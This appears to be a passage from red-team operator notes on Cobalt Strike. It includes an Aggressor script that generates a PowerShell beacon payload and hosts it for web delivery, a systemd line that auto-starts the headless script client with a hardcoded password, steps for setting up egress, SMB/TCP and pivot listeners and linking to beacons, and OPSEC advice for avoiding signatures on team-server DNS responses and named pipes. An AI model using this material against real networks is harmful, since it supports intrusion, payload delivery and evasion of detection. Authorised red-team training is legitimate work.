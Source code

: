```
vim host_payloads.cna

# Connected and ready
on ready {

    # Generate payload
    $payload = artifact_payload("http", "powershell", "x64");

    # Host payload
    site_host("10.10.5.50", 80, "/a", $payload, "text/plain", "Auto Web Delivery (PowerShell)", false);
}
```

#### Add to startup service
- Add the following line
```
sudo vim /etc/systemd/system/csteamserver.service

ExecStartPost=/bin/sh -c '/usr/bin/sleep 30; /home/attacker/cobaltstrike/agscript 127.0.0.1 50050 headless Passw0rd! host_payloads.cna &'
```

### Listeners
### Create a listener
- Two type of listeners: `egress` (HTTP(S) and DNS) and `peer-to-peer` (SMB or TCP).
  - `egress` listens on the teamserver IP.
  - `peer-to-peer` listens on a existing beacon.  	
1. In the menu click the HeadPhones Icon or click Cobalt Strike --> Listeners 
2. Click the Add button at the bottom and and a new listener dialogue will appear.
3. Choose a descriptive name such as ```<protocol>-<port>``` example: ```http-80```.
4. Set the variables/settings and click Save.
- Creating a TCP local listener is usefull for privescing or spawning new shells

#### Create peer-to-peer listener
- Creating P2P listeners can be done in the Listeners menu, by selecting the TCP or SMB Beacon payload type.
- Then create payload for the new listener!

### Create pivot listener
- To start a Pivot Listener on an existing Beacon, right-click Pivoting --> Listener.
- Might need to open port on the firewall

#### Connect to pivot listener
- Works like a bind shell. Most used are SMB or TCP.
- Run the payload on the target
- Connect to the beacon with ```link``` for smb and ```connect``` for tcp.
```
connect <IP> <PORT>
link <IP> <PIPE>
```
#### OPSEC listeners
- DNS: Since 0.0.0.0 is the default response (and also rather nonsensical), Cobalt Strike team servers can be fingerprinted in this way.  This can be changed in the Malleable C2 profile.
- SMB: The default pipe name(`msagent_XX`) is quite well signatured. A good strategy is to emulate names known to be used by common applications or Windows itself.  Use `ls \\.\pipe\` to list all currently listening pipes for inspiration.  
